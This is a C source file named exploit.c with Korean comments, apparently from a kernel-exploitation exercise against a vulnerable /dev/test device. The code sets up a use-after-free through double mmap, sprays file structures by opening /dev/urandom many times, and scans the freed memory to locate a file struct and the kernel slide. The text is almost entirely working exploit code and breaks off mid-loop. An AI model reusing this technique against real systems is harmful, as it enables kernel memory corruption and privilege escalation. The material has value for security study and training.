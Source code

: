 ## **📌** exploit.c

```c
#define _GNU_SOURCE
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/fcntl.h>
#include <sys/mman.h>
#include <unistd.h>

int main() {
    char buf[4096];
    memset(buf, 0xcc, sizeof(buf));

    // 취약한 디바이스를 두 번 open
    int fd = open("/dev/test", O_RDWR);
    int fd2 = open("/dev/test", O_RDWR);

    // 두 fd로 mmap을 수행해 UAF 상황을 유도함
    unsigned char *a = mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED, fd, 0);
    if (a == MAP_FAILED) {
        perror("mmap fd");
        exit(1);
    }
    if (mmap(0, 0x3000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED, fd2, 0) == MAP_FAILED) {
        perror("mmap fd2");
        exit(1);
    }

    // 메모리 초기화 후 write를 통해 페이지 해제를 유도
    memset(a, 0x0, 0x3000);
    memset(a + 0x1000, 0xcc, 0x1000);
    if (write(fd, "a", 1) < 0) {
        perror("write");
        exit(1);
    }

    // 많은 수의 /dev/urandom 파일을 열어 file 구조체를 spray함
    int fds[0x100];
    for (int i = 0; i < 0x100; i++) {
        fds[i] = open("/dev/urandom", O_RDONLY);
        if (fds[i] < 0) {
            perror("open /dev/urandom");
            exit(1);
        }
    }

    unsigned long *ax = (unsigned long *)a;
    for (int i = 0; i < 0x3000; i += 8) {
        printf("%04x: 0x%lx\n", i >> 3, ax[i >> 3]);
    }

    // 해제된 영역에 재할당된 file 구조체를 찾아냄
    unsigned long file_base = 0;
    unsigned long *file_ax = 0;
    unsigned long kernel_slide = 0;

    for (int i = 0; i < 0x3000; i += 0x1000) {
        if (ax[(i + 0x30) >> 3] == ax[(i + 0x38) >> 3] &&
            (ax[(i + 0x30) >> 3] & 0xfff) == 0x30 &&
            (ax[(i + 0xb0) >> 3] & 0xfffff) == 0x91700) {
```